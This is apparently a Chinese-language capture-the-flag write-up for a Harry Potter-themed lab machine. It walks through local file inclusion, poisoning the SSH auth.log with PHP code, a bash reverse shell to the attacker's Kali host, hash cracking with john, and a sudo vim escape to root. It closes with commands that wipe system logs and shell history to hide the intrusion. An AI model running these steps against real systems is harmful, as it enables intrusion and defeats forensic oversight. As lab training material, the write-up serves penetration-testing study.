 # 前言

靶机：`hotwarts-dobby`，ip地址为`192.168.1.69`

攻击：`kali`，ip地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`扫描发现主机

![](./pic-bellatrix/1.jpg)

# 信息收集

## 使用nmap扫描端口

![](./pic-bellatrix/2.jpg)

## 网站信息探测

访问80端口，发现界面显示一串字符，观察其规律，最后有`.php`，可能是一个文件

![](./pic-bellatrix/3.jpg)

查看页面源代码，可以看到给出几个信息点，其中一句话中大概意思是，这次在源代码界面中没有东西，或许我已经告诉你一个目录，`.php`文件

![](./pic-bellatrix/4.jpg)

最终去重后，发现为一个`php`文件`ikilledsiriusblack.php`

![](./pic-bellatrix/5.jpg)

# 漏洞寻找

根据前面的页面源代码查询中，发现有一个文件包含，参数为`file`，那么测试是否可行，尝试包含文件`/etc/passwd`，发现可以，并发现一个用户`lestrange`，只是，其采用的是`rbash`

![](./pic-bellatrix/6.jpg)

测试发现，只是本地文件包含，并且`/etc/shadow`无权限

再次尝试对网站进行目录爆破，不过并没有东西产出

那么尝试使用`ffuf`配合`linux`的一些关键目录文件进行测试，观察有哪些可以访问

```shell
ffuf -c -w /usr/share/wordlists/linux_file.txt -u http://192.168.1.69/ikilledsiriusblack.php?file=FUZZ -fs 1728,0 
# -fs是过滤一些特定字节的网页，1728是其网站的默认字节
#这里的字典可以去github上下载一个
```

发现日志文件`auth.log`可以访问，尝试进行污染，因为该文件中在进行`ssh`身份认证时，会记录用户名及相关信息，所需要做的就是把用户名改成一段`php`代码

![](./pic-bellatrix/7.jpg)

# 漏洞利用

然后尝试进行代码注入

![](./pic-bellatrix/8.jpg)

这时候大概率已经注入成功，可以进行查看，一般都是在文件的最后位置，结合前面的信息，一般登录失败会把用户也显示，但是php作为脚本语言，并不会直接显示，判定，已经成功，记录在文件中了

![](./pic-bellatrix/9.jpg)

那么尝试利用注入的代码，注入的代码可用

![](./pic-bellatrix/10.jpg)

# 反弹shell

尝试进行一个bash反弹，获取终端

```shell
/bin/bash-c 'bash -i >& /dev/tcp/192.168.1.16/1234 >&1'
#这里最好对该语句进行URL编码处理
```

先在`kali`中使用`nc`开启一个监听，浏览器执行上面的语句后就会在`kali`中反弹成功

![](./pic-bellatrix/11.jpg)

然后习惯性的查看当前目录下的文件，意外发现一个`root`所有者的目录，并且还可以查看，而且还是进行编码处理的名称

解码发现名称是`secret`，那就值得关注，进入到该目录，发现一个文件，查看后，发现是用户`lestrange`的hash

![](./pic-bellatrix/12.jpg)

# 提权

## 水平提权至lestrange

那就简单了，这里可以直接进行hash破解，不过这里还是复习一下`unshadow`的使用，查看`/etc/passwd`中的`lestrange`，然后复制到`kali`中的一个文件，并把上面的hash也都复制到一个文件，使用`unshadow`整合在一起后，使用`john`爆破

这里需要注意，在查看目录是尽量使用`ls -al`，因为我这里就是因为使用`kali`中的字典进行爆破，但是长时间没效果，然后再次寻找的时候，发现提供了一个字典

![](./pic-bellatrix/13.jpg)

复制该文件的内容，或者下载，怎么都行，只要把内容复制到`kali`中，然后使用`john`破解，发现密码`ihateharrypotter`

```shell
#复制文件/etc/passwd内容到kali中的user文件
#复制文件Swordofgryffindor内容到kali中的pass文件
#复制文件字典.sercret.dic内容到kali中的word.txt文件
#使用unshadow整合两个文件到userpass
unshadow user pass > userpass
john userpass --wordlist=word.txt 
```

这里图片中出现两次`john`是显示问题

![](./pic-bellatrix/14.jpg)

使用用户名`lestrange`和密码`ihateharrypotter`登录`ssh`

![](./pic-bellatrix/15.jpg)

查看当前目录下的文件，发现`.bash_history`，查看其内容

![](./pic-bellatrix/16.jpg)

![](./pic-bellatrix/17.jpg)

![](./pic-bellatrix/18.jpg)

## 垂直提权至root

根据上面的历史命令记录，可能存在`sudo`提权，所以就不再使用`find`寻找具有SUID权限文件，直接`sudo -l`

![](./pic-bellatrix/19.jpg)

发现`vim`，并且对应之前命令历史记录中的语句，可以直接使用，或者查看网站`gtfobins.github.io`中的方式

![](./pic-bellatrix/20.jpg)

使用命令`sudo vim -c ':!/bin/sh'`提权，成功至`root`

![](./pic-bellatrix/21.jpg)

并且有个`script.sh`脚本，查看发现原来是更改`auth.log`权限的

![](./pic-bellatrix/22.jpg)

# 清理痕迹

日志清理，因为这次主要就是`auth.log`日志文件，所以要好好清理

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/wtmp
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

历史命令记录

```shell
history -r 
history -c
```

# 总结

该靶场考察以下几点：

1. 对于文件的发现，发现到的都要测试一下
2. php语言的文件包含，此处使用的是`include`，包含时，会执行其文件
3. 对于`linux`中的一些文件如何配合文件包含，这里就是身份认证日志文件`auth.log`，因为用户名是可控的，所以传入了脚本语言，导致造成危害
4. 对于常见的提权，可以通过查看命令历史记录寻找其中可利用的点，或者利用`suid`或者`sudo`等提权









